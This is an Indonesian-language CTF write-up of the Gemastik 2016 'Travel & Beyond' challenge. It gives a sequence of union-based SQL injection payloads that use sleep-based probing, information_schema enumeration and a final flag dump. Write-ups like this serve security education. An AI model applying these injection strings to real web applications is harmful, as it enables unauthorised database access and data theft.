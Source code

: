 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Travel & Beyond - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: gemastik
tags: [gemastik,ctf]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Travel & Beyond](/images/travel-beyond.png)


### Solusi :

Sesuai clue pada soal kita harus mencari cara untuk melakukan database dump. percobaan pertama kita mencoba melakukan
*SQL Injection* pada search, untuk memastikan SQL Injection kami menggunakan sleep(10) :

`x' union select sleep(10) from information_schema.tables where table_name like '%a#` < ERROR 

`x' union select sleep(10),1 from information_schema.tables where table_name like '%a#` < ERROR.

... SNIP ....

`x' union select sleep(10),1,1,1,1 from information_schema.tables where table_name like '%a#` < SLEEP TEREKSEKUSI ( NORMAL )

berarti pada table yang sebelum union di select memiliki 5 kolom. memuncul kan nama database dengan query :

`x' union select 1,database(),1,1,1 from information_schema.tables where table_name like '%a#` < travel

Mencari nama table : 

`x'  union select 1,table_name,1,1,1 from information_schema.tables where table_schema like '%travel#` < destination

Mencari table lain :

`x'  union select 1,table_name,1,1,1 from information_schema.tables where table_schema like 'travel' and table_name not like 'destination#` < flag

Mencari kolom flag :

`x' union select 1,column_name,1,1,1 from information_schema.columns where table_name like '%flag#` < flag

Dump Flag : 

`x'  union select 1,flag,1,1,1 from flag where flag like 'GEMASTIK#`

![Travel Beyond Flag](/images/travel-beyond-flag.png)